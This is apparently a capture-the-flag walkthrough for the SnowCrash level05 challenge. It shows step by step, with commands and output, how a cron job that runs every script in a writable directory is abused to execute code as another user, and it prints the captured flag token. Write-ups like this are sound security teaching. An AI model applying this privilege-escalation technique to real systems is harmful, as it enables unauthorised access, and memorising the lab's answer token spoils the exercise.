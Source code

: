 Once logged in the system prompt to us the following msg "You have a new mail."

```
[~]$ ssh level05@10.12.177.116 -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.12.177.116
level05@10.12.177.116's password:
You have new mail.
```

After we execute the find command to look for related files to level05

```
level05@SnowCrash:~$ find / -name level05 2>/dev/null
/var/mail/level05
/rofs/var/mail/level05
level05@SnowCrash:~$
```

We get the /var/mail/level05 which indicate that a running conjob is executing the script /usr/sbin/openarenaserver as flag05 user

```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
level05@SnowCrash:~$
```

Now looking the source code of the script it's obvious that it's looping through all files in 
/opt/openarenaserver folder and execute them with bash as follow

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$
```


Now let's try to add a script called flag in /opt/openarenaserver executing getflag command. We wait 2 min and check for /opt/openarenaserver/flag file.

```
level05@SnowCrash:/opt/openarenaserver$ echo "whoami > /opt/openarenaserver/works" > cmd
level05@SnowCrash:/opt/openarenaserver$ ls
cmd
level05@SnowCrash:/opt/openarenaserver$ echo "getflag > /opt/openarenaserver/flag" > flash
level05@SnowCrash:/opt/openarenaserver$ ls
level05@SnowCrash:/opt/openarenaserver$ cat flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:/opt/openarenaserver$ cat works
flag05
```
